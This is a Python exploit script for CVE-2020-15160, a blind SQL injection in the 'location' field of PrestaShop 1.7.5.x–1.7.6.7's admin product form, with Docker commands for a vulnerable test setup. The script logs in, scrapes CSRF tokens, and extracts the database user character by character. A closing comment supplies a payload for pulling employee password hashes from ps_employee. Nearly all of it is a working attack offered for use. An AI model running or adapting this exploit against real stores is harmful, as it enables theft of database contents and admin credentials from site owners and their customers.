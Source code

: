 EXP
---

    # Exploit Title: PrestaShop 1.7.6.7 - 'location' Blind Sql Injection
    # Date: 2021-04-08
    # Exploit Author: Vanshal Gaur
    # Vendor Homepage: https://www.prestashop.com/
    # Version: 1.7.5.x < 1.7.6.8
    # Tested on: Debian 10 (buster)
    # CVE : CVE-2020-15160

    #!/usr/bin/python3

    '''

    Setup Vulnerable Docker on "localhost:8080":

    docker network create prestashop-net
    docker run -ti --name mysql_z --network prestashop-net -e MYSQL_ROOT_PASSWORD=admin -p 3307:3306 -d mysql:5.7
    docker run -ti --name prestashop_z --network prestashop-net -e DB_SERVER=mysql_z -p 8080:80 -d prestashop/prestashop:1.7.6.7
    '''

    import requests
    import sys
    from lxml import html
    import re


    if len(sys.argv) != 7:
        print(
            '''
            Exploit By: Vanshal Gaur
            Twitter Handle: @Vanshalg

            Exploit: CVE-2020-15160 PrestaShop blind Sql Injection 1.7.5.0 < 1.7.6.8

            Before Running the script make sure to login and change "Combinations" to "Simple product" of the product and give that productid.

            Script will retrive the output of user() function, edit payload in script to retrive other data (Tested With Prestashop 1.7.6.7)

            Usage: python3 {} email password localhost 8080 productid /adminpath

                   python3 exploit.py "test@gmail.com" "password" localhost 8080 11 /admin123
            '''.format(sys.argv[0])
        )
        sys.exit(1)

    print("Exploiting...(Be Patient)\n")
    email = sys.argv[1]
    password = sys.argv[2]
    target_host = sys.argv[3]
    target_port = sys.argv[4]
    product_id = sys.argv[5]
    admin_path = sys.argv[6]
    target = "http://"+target_host+":"+target_port

    # proxies = {"http": "http://127.0.0.1:8081", "https": "http://127.0.0.1:8081"}

    s = requests.Session()

    def login(s,target,password,email,admin_path):
        url = target+admin_path+"/index.php"

        data = {"ajax": "1", "token": '', "controller": "AdminLogin", "submitLogin": "1", "passwd": "TEMP", "email": "test@email.com"}
        data["passwd"] = password
        data["email"] = email
        r = s.post(url, data=data)

    login(s,target,password,email,admin_path)


    token_ext = s.get(target+admin_path+"/")
    token_junk = re.findall("sell/catalog/pro.*_token\=.*",token_ext.text)
    token_spit = re.split("\"",token_junk[0])
    token_2 = re.split("\?",token_spit[0])
    token = token_2[1]


    def productDetails_formtoken(s,target,product_id,admin_path):
        headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}

        q = s.get(target+admin_path+"/index.php/sell/catalog/products/"+product_id+"?"+token,headers=headers)
        tree = html.fromstring(q.text)
        output = tree.xpath("//input[contains(@name,'form[_token]')]/@value")
        form_token = ''.join(output)
        return form_token

    form_token  = productDetails_formtoken(s,target,product_id,admin_path)


    def productDetails_form_location(s,target,token,product_id,admin_path):
        headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}

        q = s.get(target+admin_path+"/index.php/sell/catalog/products/"+product_id+"?"+token,headers=headers)
        tree = html.fromstring(q.text)
        output = tree.xpath("//input[contains(@name,'form[step3][location]')]/@value")
        form_location = ''.join(output)

        return form_location




    def sqli(s,token,form_token,payload,target,product_id,admin_path):
        for j in range(32, 126):

            sql_payload = payload.replace("[CHAR]", str(j))

            url = target+admin_path+"/index.php/sell/catalog/products/"+product_id+"?"+token
            headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "X-Requested-With": "XMLHttpRequest", "Connection": "close"}
            data = {"form[step1][name][1]": "Blind Sql Injection @Vanshalg", "form[step1][type_product]": "0", "form[step1][description_short][1]": "<p><span style=\"font-size:10pt;font-style:normal;\">Regular fit, round neckline, short sleeves. Made of extra long staple pima cotton. </span></p>\r\n<p></p>", "form[step1][description][1]": "<p><span style=\"font-size:10pt;font-style:normal;\"><span style=\"font-size:10pt;font-style:normal;\">Symbol of lightness and delicacy, the hummingbird evokes curiosity and joy.</span><span style=\"font-size:10pt;font-style:normal;\"> Studio Design' PolyFaune collection features classic products with colorful patterns, inspired by the traditional japanese origamis. To wear with a chino or jeans. The sublimation textile printing process provides an exceptional color rendering and a color, guaranteed overtime.</span></span></p>", "form[step1][features][0][feature]": "1", "form[step1][features][0][value]": "4", "form[step1][features][0][custom_value][1]": '', "form[step1][features][1][feature]": "2", "form[step1][features][1][value]": "8", "form[step1][features][1][custom_value][1]": '', "form[step1][id_manufacturer]": "1", "show_variations": "0", "form[step6][reference]": "demo_1", "form[step1][qty_0_shortcut]": "0", "form[step1][price_shortcut]": "23.900000", "form[step1][price_ttc_shortcut]": "23.9", "form[step2][id_tax_rules_group]": "1", "form[step1][id_category_default]": "4", "form[step1][categories][tree][]": "2", "form[step1][categories][tree][]": "3", "form[step1][categories][tree][]": "4", "ignore": "4", "form[step1][new_category][name]": '', "form[step1][new_category][id_parent]": "2", "form[step3][qty_0]": "0", "form[step3][minimal_quantity]": "1", "form[step3][location]": "TEST", "form[step3][low_stock_threshold]": '', "form[step3][virtual_product][is_virtual_file]": "0", "form[step3][virtual_product][name]": '', "form[step3][virtual_product][nb_downloadable]": '', "form[step3][virtual_product][expiration_date]": '', "form[step3][virtual_product][nb_days]": "0", "form[step3][pack_stock_type]": "3", "form[step3][attributes]": '', "product_combination_bulk[quantity]": '', "product_combination_bulk[cost_price]": '', "product_combination_bulk[impact_on_weight]": '', "product_combination_bulk[impact_on_price_te]": '', "product_combination_bulk[impact_on_price_ti]": '', "product_combination_bulk[date_availability]": '', "product_combination_bulk[reference]": '', "product_combination_bulk[minimal_quantity]": '', "product_combination_bulk[low_stock_threshold]": '', "product_combination_bulk[_token]": "0Dj8tJ3zd6YfSNgyxRFe6CfNbuMac6mn8rm_Gd52-to", "form[step3][out_of_stock]": "2", "form[step3][available_now][1]": '', "form[step3][available_later][1]": '', "form[step3][available_date]": '', "form[step4][width]": "0", "form[step4][height]": "0", "form[step4][depth]": "0", "form[step4][weight]": "0", "form[step4][additional_delivery_times]": "1", "form[step4][delivery_in_stock][1]": '', "form[step4][delivery_out_stock][1]": '', "form[step4][additional_shipping_cost]": "0.000000", "form[step2][price]": "23.900000", "form[step2][price_ttc]": "23.9", "form[step2][unit_price]": "0.000000", "form[step2][unity]": '', "form[step2][ecotax]": "0.000000", "form[step2][id_tax_rules_group]": "1", "form[step2][wholesale_price]": "0.000000", "form[step2][specific_price][sp_id_shop]": "1", "form[step2][specific_price][sp_id_currency]": '', "form[step2][specific_price][sp_id_country]": '', "form[step2][specific_price][sp_id_group]": '', "form[step2][specific_price][sp_id_product_attribute]": '', "form[step2][specific_price][sp_from]": '', "form[step2][specific_price][sp_to]": '', "form[step2][specific_price][sp_from_quantity]": "1", "form[step2][specific_price][leave_bprice]": "1", "form[step2][specific_price][sp_reduction]": "0.000000", "form[step2][specific_price][sp_reduction_type]": "amount", "form[step2][specific_price][sp_reduction_tax]": "1", "form[step2][specificPricePriority_0]": "id_shop", "form[step2][specificPricePriority_1]": "id_currency", "form[step2][specificPricePriority_2]": "id_country", "form[step2][specificPricePriority_3]": "id_group", "form[step5][meta_title][1]": '', "form[step5][meta_description][1]": '', "form[step5][link_rewrite][1]": "hummingbird-printed-t-shirt", "form[step5][redirect_type]": "301-category", "form[step6][visibility]": "both", "form[step6][display_options][available_for_order]": "1", "form[step6][display_options][show_price]": "1", "form[step6][tags][1]": '', "form[step6][condition]": "new", "form[step6][isbn]": '', "form[step6][ean13]": '', "form[step6][upc]": '', "form[step6][attachment_product][name]": '', "form[step6][attachment_product][description]": '', "form[id_product]": "1", "form[_token]": "4KtBNSbjc--GLbsVr__-wqC5Qw2hQKDXh6zb8vWKBwA", "form[step1][active]": "1"}
            data["form[_token]"] = form_token
            data["form[step3][location]"] = sql_payload
            data["form[id_product]"] = product_id
            # print(sql_payload)
            r = s.post(url, headers=headers, data=data)

            if(productDetails_form_location(s,target,token,product_id,admin_path) == "1"):
                return j
        return None


    for i in range(1,41):
        payload = "0'|(ascii(substr(user(),%d,1)) regexp [CHAR])#" % i
        extracted_char = chr(sqli(s,token,form_token,payload,target,product_id,admin_path))
        sys.stdout.write(extracted_char)
        sys.stdout.flush()
    print("\n(+) done!")

    #PAYLOAD TO EXTRACT PASSWORD:
    # payload:  0'|ascii((substr((select passwd from ps_employee),1,1)) regexp [CHAR]#)